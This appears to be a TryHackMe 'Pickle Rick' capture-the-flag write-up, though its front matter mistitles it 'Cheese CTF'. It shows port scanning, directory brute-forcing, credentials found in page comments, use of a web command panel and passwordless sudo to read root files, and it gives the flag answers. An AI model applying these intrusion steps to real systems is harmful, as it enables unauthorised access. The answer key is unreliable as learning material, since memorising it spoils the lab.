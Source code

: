 ```yaml
---
clayout: ctf
title: Cheese CTF
type: TryHackMe
date: 2025-02-05
level: Easy
icon: /ctf/tryhackme/pickle-rick/icon-room.png
image: /ctf/tryhackme/pickle-rick/icon-room.png
banner: /ctf/tryhackme/pickle-rick/banner-room.png
description: Can you find the three ingredients to reverse Rick's transformation into a pickle?
ctf-link: https://tryhackme.com/room/picklerick
---
```


## Challenge Overview

Pickle Rick is a **web application** challenge where we must find three **hidden ingredients** to reverse Rick's
transformation into a pickle. The challenge involves **web enumeration, command injection, and privilege escalation** to
retrieve the ingredients.

## Nmap Scan - Identifying Open Ports

We start with a **full port scan** using `nmap`:

```bash
nmap -sC -sV -v -oN pickle-rick.nmap 10.10.208.201
```

Scan Results:

```bash
Nmap scan report for 10.10.208.201
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Findings:

- Port **80** (HTTP) is open → Hosting a web server.
- Port **22** (SSH) is open → Potential for privilege escalation.

## Web Enumeration - Finding Login Credentials

We visit the **website on port 80**, where we see the challenge's objective: **find three ingredients to cure Rick**.

![Pickle Rick - Home Page](/ctf/tryhackme/pickle-rick/home-page.png)

### Checking Page Source for Hints

Inspecting the **page source**, we find a **comment** revealing a username.

```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

### Checking robots.txt for Clues

Navigating to `/robots.txt`, we find Rick's **favorite catchphrase**, which might be useful as a **password**:

```bash
Wubbalubbadubdub
```

## Brute-Forcing Hidden Directories

We use **Gobuster** to discover hidden directories:

```bash
gobuster dir -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,txt -u "http://10.10.208.201/"
```

Discovered Paths:

```bash
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/login.php            (Status: 200) [Size: 882]
```

### Logging In

Using the **discovered credentials**, we log in:

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`

This gives us **access to a command execution panel**.

![Pickle Rick - Command Panel](/ctf/tryhackme/pickle-rick/command-panel.png)

## Finding the First Ingredient

### Listing Files

Using `ls`, we find a file named:

```bash
ls
Sup3rS3cretPickl3Ingred.txt
```

Attempting to read it with `cat` fails due to **output filtering**, so we use `less` instead:

```bash
less Sup3rS3cretPickl3Ingred.txt
```

First Ingredient:

```bash
mr. meeseek hair
```

## Finding the Second Ingredient

### Searching Home Directories

Checking `/home/rick/`, we find another **ingredient file**.

```bash
ls -al /home/rick
```

```
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

### Reading the File

```bash
less /home/rick/second\ ingredients
```

Second Ingredient:

```bash
1 jerry tear
```

## Privilege Escalation - Getting the Last Ingredient

### Checking Sudo Permissions

```bash
sudo -l
```

Output:

```
User www-data may run the following commands on ip-10-10-197-184:
    (ALL) NOPASSWD: ALL
```

This means we can **execute any command as root** without a password.

### Accessing Root Directory

```bash
sudo ls -al /root
```

Discovered Files:

```
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
```

### Retrieving the Last Ingredient

```bash
sudo less /root/3rd.txt
```

Third Ingredient:

```bash
fleeb juice
```

## Final Ingredients List

```
1. mr. meeseek hair
2. jerry tear
3. fleeb juice
```

We successfully retrieved all **three ingredients**, completing the challenge! 🎉


